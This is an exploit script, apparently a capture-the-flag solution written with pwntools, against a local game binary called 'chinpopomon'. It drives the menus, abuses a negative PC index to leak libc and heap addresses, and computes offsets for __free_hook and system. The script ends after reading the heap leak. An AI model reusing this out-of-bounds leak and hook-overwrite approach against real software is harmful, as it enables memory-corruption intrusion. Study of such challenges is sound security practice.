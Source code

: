 ```py
from pwn import *
import codecs

p = process('./chinpopomon')


def set_name(name):
	p.sendlineafter("name?", name)

def create(type_num, nickname):
	p.sendlineafter("Choice:", '1')
	p.sendlineafter("Choice:", str(type_num))
	p.sendlineafter("Name: ", nickname)

def enter_pc():
	p.sendlineafter("Choice:", '2')

def exit_pc():
	p.sendlineafter("Choice:", '4')

def restart_game():
	p.sendlineafter("Choice:", '3')

def deposit(index):
	p.sendlineafter("PC Choice:", '1')
	p.sendlineafter("index:", str(index))

def withdraw(index):
	p.sendlineafter("PC Choice:", '2')
	p.sendlineafter("index:", str(index))

def view_stats(index):
	p.sendlineafter("PC Choice:", '3')
	p.sendlineafter("index:", str(index))


# Get libc leak
set_name(p64(0x4072d8) + p64(0x407280)[:-1])
enter_pc()
deposit(-2)
view_stats(0)

libc_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
libc_base = libc_leak - 0x3c7ce0
free_hook = libc_base + 0x1c9b28
system = libc_base + 0x30410
print(hex(libc_base))

withdraw(0)
exit_pc()
restart_game()



# Get heap leak
set_name(p64(0x4072d8) + p64(0x4072e0)[:-1])
create(1, 'qwe')
enter_pc()
deposit(-2)
view_stats(0)

p.recvuntil('Type: ')
heap_leak = int(codecs.encode(p.recvuntil("\n")[:-1][::-1], 'hex'), 16)
```